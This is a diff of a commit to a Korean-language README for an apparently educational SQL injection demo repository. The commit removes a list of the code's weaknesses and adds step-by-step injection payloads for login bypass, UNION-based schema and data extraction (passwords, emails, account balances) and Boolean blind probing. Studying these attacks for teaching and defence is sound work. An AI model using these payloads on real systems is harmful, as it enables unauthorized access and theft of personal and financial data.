

Before and after one commit to Dangel165/sql_injection, a Markdown page: README.md, the part around one of its changes. Shown at 88% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -46,14 +46,9 @@ query = f"SELECT * FROM users WHERE username = '{username}' AND password = '{has
 cursor.execute(query)
 ```
 
-#### 문제점:
-1. **문자열 연결**: 사용자 입력을 직접 SQL 쿼리 문자열에 연결
-2. **입력 검증 부재**: 특수문자나 SQL 메타문자에 대한 필터링 없음
-3. **이스케이프 처리 없음**: SQL 구문을 변경할 수 있는 문자들이 그대로 실행됨
-
 ### 🔓 SQL 인젝션 공격 방법
 
-#### 1. 인증 우회 공격
+#### 1. 인증 우회 공격 (Authentication Bypass)
 ```
 사용자명: admin' OR '1'='1' --
 비밀번호: (아무거나)
@@ -66,18 +61,66 @@ SELECT * FROM users WHERE username = 'admin' OR '1'='1' --' AND password = '해
 
 **결과:** `'1'='1'`은 항상 참이므로 비밀번호 확인 없이 로그인 성공
 
-#### 2. UNION 기반 공격
+**변형 공격:**
+```
+admin' OR 1=1#
+admin'/**/OR/**/1=1#
+admin' OR 'x'='x
+admin') OR ('1'='1
+```
+
+#### 2. UNION 기반 공격 (UNION-based Attack)
 ```
 사용자명: ' UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12 --
 비밀번호: (아무거나)
 ```
 
-**결과:** 데이터베이스 구조 파악 및 추가 정보 추출 가능
+**단계별 공격:**
 
-#### 3. Boolean 기반 공격
+**2-1. 컬럼 수 확인:**
+```sql
+' ORDER BY 1 --    (성공)
+' ORDER BY 5 --    (성공)
+' ORDER BY 10 --   (실패) → 컬럼 수는 5~9개
+```
+
+**2-2. 데이터베이스 정보 추출:**
+```sql
+' UNION SELECT sqlite_version(),database(),user(),4,5 --
+' UNION SELECT name,sql,type,4,5 FROM sqlite_master --
+```
+
+**2-3. 테이블 구조 파악:**
+```sql
+' UNION SELECT name,1,2,3,4 FROM sqlite_master WHERE type='table' --
+' UNION SELECT sql,1,2,3,4 FROM sqlite_master WHERE name='users' --
+```
+
+**2-4. 민감한 데이터 추출:**
+```sql
+' UNION SELECT username,password,email,phone,balance FROM users --
+' UNION SELECT account_number,balance,transaction_date,amount,description FROM transactions --
+```
+
+#### 3. Boolean 기반 블라인드 공격 (Boolean-based Blind)
 ```
 사용자명: ' OR 1=1 --
 비밀번호: (아무거나)
 ```
 
-**결과:** 모든 사용자 정보에 접근 가능
+**고급 Boolean 공격:**
+```sql
+-- 데이터베이스 이름 길이 확인
+admin' AND (SELECT LENGTH(database()))=10 --
+
+-- 첫 번째 테이블 이름 추출
+admin' AND (SELECT SUBSTR(name,1,1) FROM sqlite_master LIMIT 1)='u' --
+admin' AND (SELECT SUBSTR(name,2,1) FROM sqlite_master LIMIT 1)='s' --
+
+-- 사용자 수 확인
+admin' AND (SELECT COUNT(*) FROM users)>5 --
+
+-- 관리자 계정 존재 확인
+admin' AND (SELECT COUNT(*) FROM users WHERE username='admin')=1 --
+```
+
````
Also changed, not shown: other parts of README.md (+165 -0 lines).
